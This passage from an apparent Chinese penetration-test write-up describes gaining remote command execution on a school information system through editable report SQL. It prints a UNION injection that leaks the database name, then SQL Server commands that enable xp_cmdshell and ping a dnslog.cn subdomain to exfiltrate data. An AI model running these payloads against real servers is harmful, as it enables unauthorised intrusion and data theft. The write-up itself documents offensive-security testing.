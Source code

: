 都拿到了超管权限，信息泄露只是苟且，RCE才是梦想。  
  
终于在茫茫多的功能中找到了一个很特殊的地方：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoaw69kq55cjUPJVt1nsnqkMsnVlewIQCHhmr7MM6nx8Q571mVIicicX7WA/640?wx_fmt=png&from=appmsg "")  
  
可以编辑SQL语句。  
  
且看文件名称，与学生用户端前台的"文件请求"一致：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoaiaia2Ar5EjNFKLXOVDhibicibUzWOkhRWEMHVTwfeIfib4ic3H57NgziaLvicpg/640?wx_fmt=png&from=appmsg "")  
  
那么便很容易猜测，前台用户每点击一次文件，后端就肯定会执行一下所谓"报表SQL""菜单SQL"的语句并返回结果。  
  
如果是这样的话，添加些恶意的SQL，比如外带数据库名等等，可能也会回显到得到的文件里。  
  
不多说，开始测试。  
  
由于这个网站的用户量还挺大，为了不影响学校网站的正常运行便拉着一个访问量最小的文件类型进行尝试。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoaH7NtGicCHPB3WxRXiaOMwyp4fL9Ga51YRxP8iccOeNtRBD2uD4tEVYZBg/640?wx_fmt=png&from=appmsg "")  
  
这一试花费的时间可就太多了，也遇到了挺多问题：  
  
这个网站的报表SQL、菜单SQL还有前端都有牵连，字段甚至语法都不能弄错，否则很容易就会出问题，执行不了一点。  
  
更让测试受阻的是每个用户申请文件，如果申请成功(但大多数时候数据库名都不会回显到文件里)，**网站都会对申请到的文件进行缓存**  
，并沿用上一次SQL请求的返回结果，意味着我的每一次尝试都可能要换一个新的账户(只能说还好之前获取的账号很多).......  
  
终于，尝试了无数个payload，终于外带了一次数据：  
  
![1746537710_681a0cee9395fb6e32e3a.png!small?1746537710941](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoaCNESRbqSYDAjibw8JKEqpY3w5MicrWn1WCAzibpUmqnA45WlEQ8g4DwNw/640?wx_fmt=jpeg&from=appmsg "")  
```
SELECT xb
FROM dbo.cxsyxm a
LEFT JOIN z_V_xxxxx b ON a.xh = b.xh
WHERE a.xh = '学号' AND a.rn = '选中值' 
UNION 
SELECT db_name();

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoaGlpHa2yPs9vpuy0xVepKjoaTIVlF326hWvsVQjNm4peSJpdbPolylw/640?wx_fmt=png&from=appmsg "")  
  
在测试的过程中也知道了该数据库语法为SQL Server。  
  
既然是SQL Server，而且是整段语句的完整传入，那么我们完全可以用SQL Server的**exec xp_cmdshell**  
来命令执行。  
  
那么此时便可以新建一个test文件，先试试**DNSLOG外带**  
数据库名，来测试目标服务器是否出网：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoahggMqJkPhdkt8gDA50Y5Tgc0FQgyISXiaXJSWxK5v6C5Uyib8wOghMnA/640?wx_fmt=png&from=appmsg "")  
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
DECLARE @dbName NVARCHAR(128);
DECLARE @cmd NVARCHAR(400);
SET @dbName = DB_NAME();
SET @cmd = 'ping ' + @dbName + '.ch85c4.dnslog.cn';
EXEC xp_cmdshell @cmd;

```  
  